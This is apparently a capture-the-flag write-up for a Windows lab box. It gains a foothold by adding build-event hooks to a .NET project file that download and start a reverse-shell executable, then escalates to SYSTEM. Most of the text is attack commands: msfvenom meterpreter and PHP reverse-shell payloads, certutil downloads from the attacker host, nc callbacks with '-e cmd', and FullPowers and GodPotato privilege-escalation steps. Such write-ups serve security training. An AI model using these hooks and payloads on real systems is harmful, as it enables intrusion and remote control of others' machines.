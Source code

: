 # Enumeration

Nmap scan show open port on 80 which reveals a website. Check nmap-scan.html

# Foothold

The Website offers a service to build .net repos. We can exploit this by using some BuildEvents and getting a shell.

## Creating a Repo(must have a .sln file for .net)
```
dotnet new sln -o Visual
cd Visual
dotnet new console -o Visual.ConsoleApp --framework net6.0
dotnet sln Visual.sln add Visual.ConsoleApp/Visual.ConsoleApp.csproj
```
HelloWorld.cs
```

// Hello World! program
namespace HelloWorld
{
    class Hello {         
        static void Main(string[] args)
        {
            System.Console.WriteLine("Hello World!");
        }
    }
}
```

Add this line to Visual.ConsoleApp.csproj and of course use your IP/PORT of the webserver we are setting up next
```
<Target Name="PreBuild" BeforeTargets="PreBuildEvent">
  <Exec Command="certutil -urlcache -f http://IP:PORT/shell.exe %temp%/shell.exe" />
</Target>

<Target Name="PostBuild" AfterTargets="PostBuildEvent">
  <Exec Command="start %temp%/shell.exe" />
</Target>
```

## Creating shell.exe 
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > s.exe
```

## Staring reverse shell
```
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lport PORT //used at creating shell
set lport IP
run -j
```

## Staring Webserver for shell-download
```
python3 -m http.server PORT
```

## Start Gitea
```
sudo podman pull docker.io/gitea/gitea
mkdir data
sudo podman run --rm -it -v ./data:/data -p 3000:3000 gitea/gitea
```
visit localhost:3000 and do the initial process. Then add a user and upload the repository we have created.

## Getting shell
enter the site to your repo on the website:
http://IP:3000/username/Visual

On the python webserver you can watch how the shell.exe get downloaded and afterwards a session in msfconsole started. Another method is to use a payload which started a connection via powershell/cmd.

# Privilege Escalation
This shell was closed after one command on msfconsole so I used nc.

## Getting another shell
We are allowed to create file in C:\xampp\htdocs so let use this to get shell

### Creating & Upload Payload
msfvenom -p php/reverse_tcp LHOST=IP LPORT=PORT -f raw > phpraw.php

upload it via our first shell:
```
cerutil -urlcache -f http://IP:PORT/phpraw.php phpraw.php
```
### Starting NC listener
```
nc -nlvp PORT 
```

### Trigger Shell
Start the shell by visiting http://10.10.11.234/phpraw.php

## Extend Privileges using FullPowers
I need to do another workaround here by uploading nc64.exe and creating another shell.

Upload FullPowers from this repo: https://github.com/itm4n/FullPowers

Upload nc64.exe available at this repo: https://github.com/int0x33/nc.exe/

### Start nc listener
nc -nlvp PORT

### Execute FullPower to gain another shell with more privileges
```
FullPowers -c "C:\xampp\htdocs\nc64.exe IP PORT -e cmd" -z
```

With the new shell you should have 7 Privileges when you execute whoami /priv instead of 3.

## Getting Root using GodPotato
Download and upload GodPotato-NET4.exe from this url https://github.com/BeichenDream/GodPotato/releases

### Creating shell and upload
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shellroot.exe
```

Upload it to the server.

### Start Listener

start the listener in msfconsole like at the beginning but using another port this time.
```
set payload windows/x64/meterpreter/reverse_tcp
set lport PORT //used at creating shell one step before
```

### Start shell using GodPotato
```
GodPotato-NET4.exe -cmd "C:\xampp\htdocs\uploads\shellroot.exe"
```

